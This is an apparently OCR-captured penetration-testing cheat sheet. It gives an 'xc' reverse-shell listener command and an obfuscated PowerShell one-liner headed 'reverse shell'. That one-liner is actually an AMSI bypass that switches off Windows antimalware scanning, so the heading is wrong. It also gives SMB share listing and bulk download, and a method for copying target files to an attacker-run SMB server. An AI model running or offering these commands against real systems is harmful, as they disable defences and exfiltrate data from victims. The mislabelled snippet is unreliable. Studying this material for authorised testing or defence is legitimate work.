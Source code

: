 [https://github.com/xct/xc](https://github.com/xct/xc)

```bash
./xc -l -p 9001
```

---

#### Obfuscated PowerShell reverse shell
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

---

# Services
## SMB
#### List shares

```bash
smbclient -L //<IP>
```

#### Connect to a share
```bash
smbclient //$IP/$share
```

```bash
smbclient -U $user \\\\$ip\\$share
```

#### download a full folder from smb

```bash
smb: \\> recurse ON
smb: \\> prompt OFF
smb: \\> mget *
```

#### copy a file over an smb server

run on attacker machine

```bash
smbserver.py share . -smb2support
```

run on target machine

```bash
copy <filename> \\\\<IP>\\share\\
```
